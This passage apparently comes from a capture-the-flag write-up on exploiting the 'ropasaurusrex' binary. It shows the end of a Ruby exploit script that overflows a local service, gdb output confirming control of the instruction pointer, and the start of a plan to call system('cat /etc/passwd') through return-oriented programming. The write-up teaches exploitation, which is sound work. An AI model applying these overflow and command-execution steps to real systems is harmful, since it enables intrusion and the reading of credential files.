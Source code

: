 ```
<span class="lnr"> 9 </span>    <span class="Constant">0x42424242</span>,
<span class="lnr">10 </span>  ].pack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">11 </span>
<span class="lnr">12 </span>s.write(payload)
<span class="lnr">13 </span>s.close()
```

Run that with <tt>ruby ./sploit.rb</tt> and you should see the service crash:

```

<span class="lnr">1 </span>connect to <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> from debian-x86.skullseclabs.org <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> <span class="Constant">53451</span>
<span class="lnr">2 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
```

And you can verify, using gdb, that it crashed at the right location:

```

<span class="lnr">1 </span>gdb <span class="Special">--quiet</span> ./ropasaurusrex core
<span class="lnr">2 </span><span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">3 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">4 </span><span class="Comment">#0  0x42424242 in ?? ()</span>
```

We now have the start of an exploit!

## How to waste time with ASLR

I called this section 'wasting time', because I didn't realize - at the time - that ASLR was enabled. However, assuming no ASLR actually makes this a much more instructive puzzle. So for now, let's not worry about ASLR - in fact, let's not even \*define\* ASLR. That'll come up next section.

Okay, so what do we want to do? We have a vulnerable process, and we have the libc shared library. What's the next step?

Well, our ultimate goal is to run system commands. Because stdin and stdout are both hooked up to the socket, if we could run, for example, <tt>system("cat /etc/passwd")</tt>, we'd be set! Once we do that, we can run any command. But doing that involves two things:

1. Getting the string <tt>cat /etc/passwd</tt> into memory somewhere
2. Running the "system() function

### Getting the string into memory

Getting the string into memory actually involves two sub-steps:

1. Find some memory that we can write to
2. Find a function that can write to it
